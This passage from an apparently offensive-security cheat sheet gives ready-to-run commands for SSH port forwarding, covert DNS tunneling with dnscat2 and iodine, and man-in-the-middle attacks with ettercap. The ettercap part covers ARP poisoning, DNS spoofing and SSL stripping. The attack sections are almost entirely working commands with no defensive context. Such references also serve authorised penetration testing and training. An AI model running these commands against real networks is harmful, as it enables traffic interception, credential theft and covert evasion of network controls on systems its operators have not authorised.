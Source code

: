 
## 9. SSH Tunneling - OpenSSH

```bash
# Local port forwarding
ssh -L 8080:target_server:80 user@ssh_server

# Remote port forwarding
ssh -R 8080:localhost:22 user@ssh_server

# Dynamic SOCKS proxy
ssh -D 1080 user@ssh_server

# Background tunnel
ssh -f -N -D 1080 user@ssh_server
```

## DNS Tunneling - Dnscat2

```bash
# Server setup
ruby dnscat2.rb example.com

# Client connection
./dnscat2 example.com

# Encrypted connection
ruby dnscat2.rb --secret=password example.com

# Client with encryption
./dnscat2 --secret=password example.com
```

### Alternative - Iodine

```bash
# Server setup
iodined -f -c -P password 192.168.99.1 tunnel.example.com

# Client connection
iodine -f -P password tunnel.example.com

# Specify DNS server
iodine -f -P password -r dns_server tunnel.example.com
```

---

## 10. Through MITM Attack - Ettercap

```bash
# ARP poisoning
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//

# DNS spoofing
echo "*.target.com A 192.168.1.50" >> /etc/ettercap/etter.dns
ettercap -T -M arp:remote -P dns_spoof /192.168.1.1//

# SSL stripping
ettercap -T -M arp:remote -P sslstrip /192.168.1.1//

# Full duplex ARP poisoning
ettercap -T -M arp /192.168.1.1// /192.168.1.100//
```

---